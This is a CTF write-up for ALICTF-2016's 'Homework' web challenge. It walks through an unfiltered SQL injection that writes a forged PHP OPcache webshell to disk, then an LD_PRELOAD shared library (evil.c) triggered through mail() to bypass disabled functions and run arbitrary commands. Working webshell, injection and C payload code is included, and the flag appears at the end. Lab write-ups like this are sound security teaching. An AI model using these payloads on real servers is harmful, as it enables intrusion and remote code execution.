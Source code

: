 ```yaml
---
layout: post
title: Homework
category: ALICTF-2016
---
```


## Description
It's time to submit your homework.
But I'm sure the teacher is too busy to check your homework.

---

## The Challenge
This has been a very fun challenge for our team as it consisted of multiple exploitation techniques leading to RCE.

This is a big writeup, if ever there are some details that are missing, feel free to check the writeup of my teammate [here](https://github.com/tothi/ctfs/tree/master/alictf-2016/homework).

The first steps required us to register and login. Both these steps required us to enter a captcha, which we can bruteforce with a simple Python script.

![login](/assets/img/alictf-2016/login.png)

These types of captchas are fairly common in CTFs, so we already had a script ready :

``` python
#!/usr/bin/env python2

import hashlib
import string
import random
import sys

charset = string.ascii_uppercase + string.digits

while True:
  tmp = ''.join(random.choice(charset) for _ in range(6))
  tmpHash = hashlib.md5(tmp.encode()).hexdigest()
  if tmpHash[0:4] == sys.argv[1]:
    print ("[*] Solved by " + tmp)

```
---

Once we log in, we can start playing around with the website. The website consisted of three features. We can :

- Upload our homework with a brief description
- View the uploaded file
- View the description of our previously uploaded homework

![main_page](/assets/img/alictf-2016/upload_form1.png)
![upload_success](/assets/img/alictf-2016/upload_success.png)


The first thing we had in mind was to upload a PHP file directly through the upload functionality. Uploading a `payload.php` file worked, but navigating to it renders a page with the overwritten text `bad man`.

Moving on to the description viewer functionality of the website, we noticed an SQL injectable parameter in the URL :

![detail_view_sqli_poc](/assets/img/alictf-2016/detail_view_sqli_poc.png)

The parameter wasn't filtered at all, which gave us free reign to query whatever we wanted.
We could dump some system files, depending on what permissions were set on the filesystem.

![detail_view_sqli_loadfile](/assets/img/alictf-2016/detail_view_sqli_loadfile.png)

The source code folders were hardened, so not much we could do there.
We then moved on to dumping all of the available tables, unfortunately there wasn't anything interesting there either.

---

After much hours of struggling, we discovered 2 files that were publicly available on the website : `phpinfo.php` and `readme.html`.

## phpinfo.php

This page gave us the classic output of a `phpinfo()` function call. Browsing through it quickly, we noticed that PHP 7.0's OPcache feature was enabled with the appropriate settings to run the exploitation technique presented in this [article](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

![phpinfo](/assets/img/alictf-2016/phpinfo_opcache.png)

From this page, we have all the information we need to try this attack vector :

- File cache location `/tmp/OPcache`
- Document root `/var/www/html`
- `System ID`

In order for this exploitation technique to work though, we needed an unrestricted file upload vulnerability on the website through the `www-data` user, which wasn't the case here.
Which brings us to the `readme.html` file.

##### readme.html

![readme](/assets/img/alictf-2016/readme.png)

This file guides us through the installation of a plugin of some sort. Though the contents of the file is mostly irrelevant, there is one dangerous line that could make things much simpler for us : `chmod 777 -R ./`.
Because of this line, the `/tmp` as well as all of its underlying folders have `777` permissions. Which means we no longer require the `www-data` user to do unrestricted file upload.

We can go through the SQL injection vulnerability and upload files using the `INTO DUMPFILE [filename]` keywords!

---

At this point, we must understand that the `INTO DUMPFILE [filename]` keywords require us to specify a non-existant file.
Therefore, we can't overwrite existing OPcache files. We need to inject an OPcache file for a PHP script that has not been called yet.
This is where the homework upload functionality from earlier comes in. Since we can upload any file/extension we want, we can leverage that as the "PHP script that has not been called yet".

From all the information we've gathered so far, we should be able to make this attack vector work. These are the steps we had to do to get a working PHP script :

  1. Create our PHP webshell `<?php system($_GET['cmd']) ?>`
  2. Compile it into an OPcache file `payload.php.bin`
  3. Modify the `System ID` of `payload.php.bin` to match the server's `System ID`
  4. Get the hex dump of our payload. I used `cat payload.php.bin | hex`
  5. Upload a file with the name `payload.php`.
  6. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-payload.php`).
  7. Upload the OPcache file at the appropriate location through SQL injection
  8. Navigate to the uploaded file.

Here is the SQL injection used on the ID parameter to upload the OPcache file :

    -1' SELECT X'[OPCACHE PAYLOAD HEXDUMP]' INTO DUMPFILE '/tmp/[SYSTEM ID]/var/www/html/[PATH OF UPLOADED FILE].bin #

---

Going through all the steps, we managed to get our PHP file to execute. This is when we encountered a new problem. Most of the functions are blocked!

![restrictions](/assets/img/alictf-2016/phpinfo_restrictions.png)

Basically, we have a working PHP script, but no way to execute shell commands.

Going through the `phpinfo` file again, we've noticed that `sendmail` is enabled.

![sendmail](/assets/img/alictf-2016/phpinfo_sendmail.png)

Doing some research on PHP and `sendmail`, we can see that PHP's `mail()` function executes the `sendmail` binary internally. Knowing this, we've concluded that we have to use the `LD_PRELOAD` trick to inject our own code and get a webshell. You can find out more about it [here](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

Basically, through PHP's `putenv` function, we can specify the path to a malicious shared library in the `LD_PRELOAD` environment variable.

When a file is executed, the file specified in the `LD_PRELOAD` variable will be loaded before any other library. Which gives us the oppurtunity to overwrite standard library functions and run our own code.

In this case, we have to create a library containing a function that we know is being called by `sendmail`. We'll override the `geteuid()` function. Here is our code :

``` c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);
}

int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

The script above will run the command specified in the `_evilcmd` environment variable, and send the output to a temporary file that we can read.

Here is the PHP script that we'll use to trigger the evil library.

``` php
<?php
  $cmd = $_GET['cmd'];

  echo putenv("LD_PRELOAD=/var/www/html/upload/XXXXXXXXXXXX-evil.so");
  echo putenv("_evilcmd=".$_GET['cmd']);
  echo mail("a@example.com", "a", "a");
  show_source("/tmp/_0utput.txt");
?>
```

Finally :

1. Compile the `evil.so` library
2. Upload it through the upload functionality of the website
3. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-evil.so`)
4. Modify the PHP script with the correct `evil.so` path.
5. Use the OPcache exploit technique from earlier to get a working PHP script on the server.
6. Navigate to the PHP script with the `cmd=echo ok` URL parameter.

![cmd_interface_test](/assets/img/alictf-2016/cmd_interface_test.png)

At this point, it's just a matter of finding the flag. Some common commands like `ls` and `cat` are restricted which makes this last step harder.
We used `printf '%s\n' /*` as a substitute for `ls` and `tac` as a substitute for `cat`.

![cmd_interface_ls](/assets/img/alictf-2016/cmd_interface_ls.png)
![cmd_interface_flag](/assets/img/alictf-2016/cmd_interface_flag.png)

**Flag :** alictf{nk2csizy7od2feyt5un4mx7s891gilf4}

